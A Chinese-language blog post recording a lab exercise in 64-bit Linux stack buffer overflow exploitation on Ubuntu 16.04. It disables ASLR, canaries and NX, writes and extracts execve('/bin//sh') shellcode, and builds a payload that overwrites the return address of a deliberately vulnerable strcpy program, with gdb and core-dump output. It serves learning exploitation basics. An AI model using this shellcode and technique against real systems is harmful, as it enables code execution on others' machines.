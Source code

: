 ```yaml
---
title: 【pwn】linux x64栈溢出
date: 2017-10-11 16:42:01
categories: pwn
tags:
    - linux
    - 栈溢出
---
```


这篇文章主要记录基于64位linux的栈溢出实验，在实验过程中遇到的问题，以及自己的一些思考。

## 环境配置

实验基于Ubuntu 16.04, 操作系统版本以及gcc, gdb版本信息如下:

```
Linux ubuntu 4.10.0-28-generic #32~16.04.2-Ubuntu SMP Thu Jul 20 10:19:48 UTC 2017 x8664 x8664 x86_64 GNU/Linux

gcc (Ubuntu 5.4.0-6ubuntu1~16.04.4) 5.4.0 20160609

GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
```
<!-- more -->
为了更简单的方式实现栈溢出，需要关闭一些保护措施。

* ASLR(地址空间布局随机化)

  关闭ASLR：`sudo sh -c "echo 0 > /proc/sys/kernel/randomize_va_space"`

* Cannary

  开启Canary之后，函数开始时在ebp和临时变量之间插入一个随机值，函数结束时验证这个值。如果不相等（也就是这个值被其他值覆盖了），就会调用 _stackchk_fail函数，终止进程。对应GCC编译选项`-fno-stack-protector`解除该保护。

* NX.
  开启NX保护之后，程序的堆栈将会不可执行。对应GCC编译选项`-z execstack`解除该保护。

### GCC 与gdb版本问题

gcc从4.8开始缺省使用了-gdwarf-4选项，较旧的gdb无法识别dwarf4版本的调试信息, 参见[https://gcc.gnu.org/gcc-4.8/changes.html](https://gcc.gnu.org/gcc-4.8/changes.html)。用gcc编译程序时，使用选项-gdwarf-3来指定生成dwarf3版本的调试信息，这样旧版的gdb就可以识别调试信息了。

综合上述信息，使用gcc编译，应当使用如下命令:

```Bash
gcc -fno-stack-protector -z execstack -gdwarf-3 xxx.c -o xxx
```

## 编写shellcode

对栈溢出的利用，通常是覆盖返回地址，指向自shellcode的地址，从而执行shellcode。因此，这里先解决shellcode的编写问题。参考：[https://www.exploit-db.com/exploits/36858/](https://www.exploit-db.com/exploits/36858/)。首先编写汇编文件，验证shellcode功能，然后再提取机器码。使用`AT&T`风格编写汇编文件如下：

```Asm
.global _start
_start:
    xor %esi, %esi
    # /bin//sh
    movabs $0x68732f2f6e69622f, %rbx
    push %rsi
    push %rbx
    push %rsp
    pop %rdi
    pushq $59
    pop %rax
    xor %edx, %edx
    syscall
```
{% asset_img 001.png%}

提取机器码:

```Bash
for i in $(objdump -d tmp | grep "^ " | cut -f2); do echo -n '\x'$i; done; echo
\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05
```

## 编写栈溢出程序

```C
#include<stdio.h>
#include<string.h>

void overflow(char* str){
    char buf[128];
    strcpy(buf, str);
}

int main(){
    char str[256]="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05 AAAAAAAA";
    overflow(str);
    return 0;
}
```

上面这段程序栈溢出漏洞触发点在strcpy函数, 函数没有做边界检查，可导致栈溢出覆盖返回地址。成功利用栈溢出需要确定覆盖多少个字节可以覆盖到返回地址，另外就是确定shellcode的地址即str的首地址，让返回地址指向该地址。

```bash
$gcc -fno-stack-protector -z execstack -gdwarf-3 pwn.c -o pwn
$gdb pwn
(gdb) start
Temporary breakpoint 1, main () at pwn.c:10
10	    char str[256]="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05 AAAAAAAA";
(gdb) p /x $rsp
$4 = 0x7fffffffdc10
(gdb) p /x $rbp
$5 = 0x7fffffffdd10        # rbp rsp相差0x100, 即256,正是str申请的空间大小
(gdb) p /x &str
$3 = 0x7fffffffdc10		   # str首地址
(gdb) s
11	    overflow(str);
(gdb) s
overflow (str=0x7fffffffdc10 "1\366H\273/bin//shVST_j;X1\322\017\005 AAAAAAAA")
    at pwn.c:6
6	    strcpy(buf, str);
(gdb) p /x &buf
$7 = 0x7fffffffdb80
(gdb) p /x $rbp
$8 = 0x7fffffffdc00			# 0x7fffffffdc00 - 0x7fffffffdb80 = 128，即buf申请的空间大小
```

使用的shellcode长度为23字节，为了覆盖到返回地址，需要128+8(ebp)=136字节，则除了shellcode外还需要136-23=113填充字节。另外返回地址为0x7fffffffdd10,改为小端模式`\x10\xdc\xff\xff\xff\x7f`。那么payload为

```c
char str[256]="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x10\xdc\xff\xff\xff\x7f";
```

编译后运行程序，出现段错误，不符合预期，于是gdb调试。

```bash
$ ./pwn
段错误 (核心已转储)

(gdb) s
overflow (
    str=0x7fffffffdc10 "1\366H\273/bin//shVST_j;X1\322\017\005 ", 'A' <repeats 112 times>, "\020\334\377\377\377\177") at pwn.c:6
6	    strcpy(buf, str);
(gdb) n
7	}
(gdb) s
Warning:
Cannot insert breakpoint 0.
Cannot access memory at address 0x6e69622fbb48f631

0x00007fffffffdc10 in ?? ()
(gdb) p /x $rsp
$1 = 0x7fffffffdc10
(gdb) p /x $rbp
$2 = 0x4141414141414141
(gdb) p /x $rip
$3 = 0x7fffffffdc10
(gdb) x/32xg $rsp-0x10
0x7fffffffdc00:	0x4141414141414141	0x00007fffffffdc10
0x7fffffffdc10:	0x6e69622fbb48f631	0x5f54535668732f2f
0x7fffffffdc20:	0x20050fd231583b6a	0x4141414141414141
0x7fffffffdc30:	0x4141414141414141	0x4141414141414141
0x7fffffffdc40:	0x4141414141414141	0x4141414141414141
0x7fffffffdc50:	0x4141414141414141	0x4141414141414141
0x7fffffffdc60:	0x4141414141414141	0x4141414141414141
0x7fffffffdc70:	0x4141414141414141	0x4141414141414141
0x7fffffffdc80:	0x4141414141414141	0x4141414141414141
0x7fffffffdc90:	0x4141414141414141	0x00007fffffffdc10
0x7fffffffdca0:	0x0000000000000000	0x0000000000000000
0x7fffffffdcb0:	0x0000000000000000	0x0000000000000000
0x7fffffffdcc0:	0x0000000000000000	0x0000000000000000
0x7fffffffdcd0:	0x0000000000000000	0x0000000000000000
0x7fffffffdce0:	0x0000000000000000	0x0000000000000000
0x7fffffffdcf0:	0x0000000000000000	0x0000000000000000
```

gdb查看rip, rsp, rbp都是正确的，然而实际运行却是段错误，网上搜索一番，原来是gdb有自己的变量环境，变量的存放地址和程序实际运行会不一致，既然找到原因了，解决起来就比较容易了，只需要把返回地址改为shellcode实际存放的地址即可，填充长度无须改变，因为相对偏移不变。

一种方案是修改源程序，打印出str的首地址：`printf("%p\n", str);`;另外一种方案是利用内核转储获取真实内存地址，无须改变源码。

### GDB获取真实内存地址

首先启用内核转储：`ulimit -c unlimited`。该方法只在当前shell中生效，永久生效可以修改`/etc/profile`, 添加：`ulimit -c unlimited`。缺省情况下，内核在coredump时所产生的core文件放在与该程序相同的目录中，并且文件名固定为core。

````
gdb <程序可执行文件> <coredump转储文件>
````

```Bash
$ulimit -c unlimited
$ ./pwn
段错误 (核心已转储)
$ gdb pwn core

Type "apropos word" to search for commands related to "word"...
Reading symbols from pwn...done.
[New LWP 11347]
Core was generated by `./pwn'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x00007fffffffdc10 in ?? ()
```
{% asset_img 003.png %}

从上图可以看出shellcode地址，修改payload为: 

```c
char str[256]="\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x56\x53\x54\x5f\x6a\x3b\x58\x31\xd2\x0f\x05 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x40\xdc\xff\xff\xff\x7f";
```

重新编译运行。
{% asset_img 004.png %}

## 参考

* [https://www.exploit-db.com/docs/33698.pdf](https://www.exploit-db.com/docs/33698.pdf)
* [Linux 64-bit Buffer Overflow Tutorial](http://www.therabb1thole.co.uk/tutorial/linux-64-bit-buffer-overflow-tutorial/)
* [Where does Shellcode come from](http://www.therabb1thole.co.uk/tutorial/writing-linux-x86_64-bit-shellcode/)